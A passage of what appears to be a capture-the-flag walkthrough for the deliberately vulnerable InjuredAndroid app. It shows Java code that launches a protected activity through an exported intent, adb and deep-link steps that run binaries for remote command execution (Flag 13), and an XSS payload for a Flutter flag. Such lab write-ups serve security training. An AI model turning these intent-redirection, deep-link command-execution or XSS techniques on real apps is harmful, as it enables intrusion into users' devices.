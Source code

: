 ```java
        Intent start = new Intent();
        start.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.ExportedProtectedIntent");
        start.putExtra("access_protected_component", next);

        startActivity(start);
    }

}

```

---

### Flag 13 - Treasure_Planet

#### Non-rooted device

1. Run adb as root (Google apis are needed with VM)

`adb root`

2. Use adb shell to access phone file directories

`adb shell`

3. Navigate to `/data/data/b3nac.injuredandroid/files`.

4. chmod the binary that matches your phone architecture.

`chmod +x binaryname`

5. Now use deep links to display binary command results in the Activity WebView. The flag is split into three separate commands.

```html
<html>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testOne">Test one!</p>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testTwo">Test two!</p>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testThree">Test three!</p>
<p><a href="flag13://rce?combined=Treasure_Planet">OH SNAP!</p>
</html>
```

#### Rooted device

I believe you shouldn't have to chmod the binary with a rooted device.

1. Skip to using deep links to solve the flag.

---

### Flag 14 - Flutter Stored XSS

Solving this flag only requires finding the right javascript function for XSS.

```dart
if (widget.test == "onclick=alert(1)") {
```
